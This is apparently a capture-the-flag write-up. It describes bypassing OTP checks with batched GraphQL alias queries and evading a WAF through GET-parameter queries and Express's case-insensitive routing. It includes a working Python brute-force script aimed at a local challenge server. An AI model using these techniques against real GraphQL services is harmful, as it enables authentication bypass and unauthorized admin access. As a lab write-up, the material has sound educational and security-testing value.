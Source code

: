 # Description

- Bypassing OTP using GraphQL's ability to send multiple queries in a single request.
- Bypassing WAF using the characteristics of a GraphQL server.
    - Bypassing the body size limit by sending GraphQL query in GET parameter(`query`).
    - Bypassing the "admin" string check with sending variables in the GET body.
- Bypassing WAF by exploiting the case-insensitive nature of Express.


# solve.py
```python
import requests

URL = "http://localhost:4000/graphql"
variables = {"d": "admin"}
template = 'a%num%: otp(u:$d,i:%num2%,otp:"%num%")'

for ii in range(40):
    print(ii)
    for start in range(0, 1000, 250):
        wow = [template.replace("%num%", str(i).zfill(3)).replace("%num2%", str(ii)) for i in range(start, start + 250)]
        query = """
        query Some($d: String!){
        %wow%
        }
        """.replace("%wow%", "\n".join(wow))
        result = requests.get(URL, params={"query": query}, json={"variables": variables})
        if "OK !!!" in result.text:
            print(result, result.text)
            break

print(requests.get("http://localhost:4000/Admin").text)
```
